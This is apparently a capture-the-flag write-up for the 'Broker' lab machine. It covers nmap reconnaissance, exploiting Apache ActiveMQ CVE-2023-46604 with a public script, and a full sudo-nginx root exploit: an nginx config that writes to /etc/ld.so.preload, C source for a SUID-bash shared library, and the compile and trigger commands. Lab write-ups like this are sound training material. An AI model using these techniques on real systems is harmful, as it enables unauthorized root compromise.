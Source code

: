 # Broker

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.39.87 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-09 02:11 EST
Nmap scan report for 10.129.39.87
Host is up (0.018s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
1883/tcp  open  mqtt
5672/tcp  open  amqp
8161/tcp  open  patrol-snmp
43739/tcp open  unknown
61613/tcp open  unknown
61614/tcp open  unknown
61616/tcp open  unknown
```

Did a detailed scan as well:

```
$ nmap -p 80,1883,5672,8161,43739 -sC -sV --min-rate 3000 10.129.39.87
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-09 02:12 EST
Nmap scan report for 10.129.39.87
Host is up (0.0068s latency).

PORT      STATE SERVICE    VERSION
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: Jetty(9.4.39.v20210325)
43739/tcp open  tcpwrapped
```

### ActiveMQ RCE

Port 80 had Apache ActiveMQ running:

![](../../../.gitbook/assets/broker-image.png)

Clicking on the Manage button brings us to the management dashboard:

![](../../../.gitbook/assets/broker-image-1.png)

This box was created to showcase the ActiveMQ RCE exploit (CVE-2023-46604). This vulnerability was given a CVSS rating of 10.0, which is quite rare. Ransomware groups are continuing to use this exploit to target organisations today.

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2023-46604" %}

{% embed url="https://www.darkreading.com/cyberattacks-data-breaches/attackers-target-max-severity-apache-activemq-bug-to-drop-ransomware" %}

Here's the breakdown of how the vulnerability works and the PoC:

{% embed url="https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis" %}

{% embed url="https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell" %}

This works because of unsafe deserialisation of data within the OpenWire protocol. In short, an attacker needs to connect to port 61616 and send an OpenWire packet with a specific data type (31).

The payload is created as a string of hex characters, and sent to port 61616. It uses a gadget from the Spring framework to load a remote XML file via HTTP, which can be used to spawn a process via `ProcessBuilder.start`.

I used the Python script from the Github repository to exploit it on this machine. The script provides us with a pseudoshell, which works:

![](../../../.gitbook/assets/broker-image-2.png)

From this, I can easily gain a reverse shell. 

![](../../../.gitbook/assets/broker-image-3.png)

## Privilege Escalation

### Sudo Privileges -> Nginx Exploit

The user was allowed to run `nginx` with `sudo`:

```
activemq@broker:~$ sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

This means I can specify whatever configuration file and run `nginx` with it. This could allow us to read files as `root`, but getting a shell is better.

Here's the resource I used to exploit it:

{% embed url="https://darrenmartynie.wordpress.com/2021/10/25/zimbra-nginx-local-root-exploit/" %}

The researcher explained this pretty well. So what I did was first create a `nginx.conf` file with the `error_log` variable declared.

```
user root;
error_log /etc/ld.so.preload warn;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```

Afterwards, start the `nginx` server as `root`.

```
activemq@broker:/tmp$ sudo /usr/sbin/nginx -c /tmp/pe.conf
```

Next, use `curl` to send requests to our port, and there will be errors like so:

```
activemq@broker:/tmp$ curl localhost:1337/tmp/exploit.so
ERROR: ld.so: object '2023/12/09' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '11' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '58' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '25' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '[error]' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '1774' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```

This ensures that the string containing the path to the library is written to `/etc/ld.so.preload`. Next, write a `exploit.c` file as such:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
   chown("/tmp/priv", 0, 0);
   chmod("/tmp/priv", 04755); 
   unlink("/etc/ld.so.preload");
   printf("[+] done!\n");
}
```

`priv` in this case is just a copy of `bash`, which can be done using `cp /bin/bash /tmp/priv`. What this program does is make it a SUID binary. Compile it using `gcc -fPIC -shared -ldl -o /tmp/exploit.so exploit.c`. There will be a lot of errors, which can be ignored.

Lastly, run any SUID program as `root`, such as `sudo -l` to trigger the exploit and also generate a lot of logs:

```
activemq@broker:/tmp$ sudo -l
ERROR: ld.so: object '2023/12/09' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
<TRUNCATED>
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

This causes the library to be executed, creating a SUID `bash` binary for escalation.

![](../../../.gitbook/assets/broker-image-4.png)

Rooted! 

### Additional Notes

This LPE was rather interesting now I know that running `nginx` allows for writing to a file via `error_log`. This exploit works because of the fact that `ld.so.preload` specifies all the ELF shared libraries to be loaded before others, and all it needs is a PATH to be written within it. 

In our case, I wrote `/tmp/exploit.so` to it via causing errors with `curl`. This allowed for the library to be loaded as `root` when running `sudo -l`.

I was wondering if it was possible for users to upload files as `root` with the right `nginx` configurations, and turns out it is:

{% embed url="https://stackoverflow.com/questions/43241067/upload-files-to-nginx" %}

The above uses `dav_methods` to specify that PUT requests can be used, and I can even specify where the file goes. In this case, it seems that writing an `authorized_keys` folder for `root` is an alternate method.